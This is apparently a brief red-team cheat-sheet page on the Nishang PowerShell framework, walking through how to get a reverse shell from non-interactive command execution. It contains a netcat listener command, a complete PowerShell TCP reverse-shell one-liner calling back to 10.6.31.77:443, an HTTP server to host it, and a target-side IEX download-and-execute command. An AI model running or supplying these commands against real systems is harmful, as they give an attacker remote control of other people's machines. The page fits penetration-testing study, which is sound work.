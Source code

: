 # [nishang](https://github.com/samratashok/nishang)

> Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.

## Non-Interactive Command Execution --> Reverse Shell

Start a reverse shell listener.

```bash
sudo nc -nlvp 443 -s 10.6.31.77
```

Make a copy of `nishang/Shells/Invoke-PowerShellTcpOneLine.ps1`, choose and uncomment one of the two options, change its host and port to that of your reverse shell listener, and delete the other.

```powershell
# shell.ps1
$client = New-Object System.Net.Sockets.TCPClient('10.6.31.77',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Serve the reverse shell.

```bash
python3 -m http.server 80
```

Execute the following command on the target to execute the reverse shell.

```cmd
powershell "IEX(New-Object System.Net.WebClient).downloadString('http://10.6.31.77/shell.ps1')"
```

Receive the reverse shell.